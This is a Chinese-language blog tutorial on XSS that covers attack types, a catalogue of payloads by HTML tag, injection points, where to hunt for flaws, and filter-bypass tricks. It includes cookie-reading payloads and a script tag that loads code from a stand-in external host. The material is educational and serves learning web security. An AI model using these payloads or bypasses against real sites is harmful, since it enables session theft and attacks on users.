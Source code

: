 ```yaml
---
title: 随记—什么是 XSS
date: 2021-03-30
author: LM
tags: ["随记"]
---
```


> 参考原文：[ XSS(跨站脚本攻击)详解  @615 ](https://www.cnblogs.com/wuqun/p/12484816.html)

## 1.简单介绍

HTML注入与XSS攻击简单来说就是当用户在输入框输入内容，后台对输入内容不做处理直接添加入页面。此时，**用户就可以刻意填写HTML、JavaScript脚本来作为文本输入**，这样这个页面就会出现一些用户加入的东西了，这是一种脚本注入。

```html
<a href=http://www.baidu.com>Click Me</a>
```

当然有些稍微有点脑子的网站会屏蔽 script 标签的输入，但是我们大可以利用类似于以下的语句注入脚本。

```html
<img src=1 οnerrοr=alert(1) />
<scr<script>ipt>
```

因此，相比起过滤script标签，建议采用更加高明的过滤'<''>''&'等符号。事实上html定义了几个特定符号专门用来表示这几个符号的，比如用&amp来代替&符号等。

## 2.XSS

跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页面时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击！

XSS攻击主要分为以下三种

- 存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie
- 反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息
- DOM型XSS：不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS。可能触发DOM型XSS的属性有：document.referer，window.name，location，innerHTML，documen.write。具体操作是在URL中传入参数的值，然后客户端页面通过js脚本利用DOM的方法获得URL中参数的值，再通过DOM方法进行赋值或其他操作

## 3.XSS的攻击载荷

以下所有标签的 > 都可以用 // 代替

### script标签

```html
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```

### svg标签

```html
<svg onload="alert(1)">
<svg onload="alert(1)"//
```

### img标签

```html
<img  src=1  οnerrοr=alert("hack")>
<img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
```

### body标签

```html
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
```

### video标签

```html
<video οnlοadstart=alert(1) src="/media/hack-the-planet.mp4" />
```

### style标签

```html
<style οnlοad=alert(1)></style>
```

## 4.XSS可以插在哪里？

- 用户输入作为script标签内容
- 用户输入作为HTML注释内容
- 用户输入作为HTML标签的属性名
- 用户输入作为HTML标签的属性值
- 用户输入作为HTML标签的名字
- 直接插入到CSS里
- 最重要的是，千万不要引入任何不可信的第三方JavaScript到页面里！

```html
<!-- 用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过-->
<!-- --><script>alert('hack')</script><!-- -->
<!-- 用户输入作为标签属性名，导致攻击者可以进行闭合绕过-->
<div 用户输入="xx">  </div>
<div ></div><script>alert('hack')</script><div a="xx"> </div>
<!-- 用户输入作为标签属性值，导致攻击者可以进行闭合绕过-->
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>
<!-- 用户输入作为标签名，导致攻击者可以进行闭合绕过-->
<用户输入  id="xx" />
<><script>alert('hack')</script><b id="xx" />
<!-- 用户输入作为CSS内容，导致攻击者可以进行闭合绕过-->
<style>用户输入<style>
<style> </style><script>alert('hack')</script><style> </style>
```

## 5.XSS漏洞的挖掘 

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

- URL的每一个参数
- URL本身
- 表单
- 搜索框

常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

## 6.XSS的简单过滤和绕过

### a.区分大小写过滤标签

```html
<!-- 可以使用大小写绕过-->
<scripT>alert('hack')</scripT>
<sCript>alert("hey!")</scRipt>
```

### b.不区分大小写过滤标签

```html
<!-- 可以使用嵌套的script标签绕过 --> 
<scr<script>ipt>alert('hack')</scr</script>ipt>
```

### c.不区分大小写，过滤之间的所有内容

```html
<!-- 虽然无法使用<script>标签注入XSS代码，但是可以通过img、body等标签的事件或者 iframe 等标签的 src 注入恶意的 js 代码。onerror事件是专门针对js出错的，标签闭合性被破坏会触发这个事件。--> 
 <img src=1 οnerrοr=alert('hack')>
```

### d.编码脚本代码绕过关键字过滤

```html
<!-- 有的时候，服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行，简直太贴心了。例如alert(1)编码过后就是 \u0061\u006c\u0065\u0072\u0074(1)--> 
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

### e.主动闭合标签实现注入代码

```html
<!-- 有些注入点出现在链接或属性中，此时可以使用"主动的闭合标签，实现代码的注入-->
";alert("I am coming again~");"
```

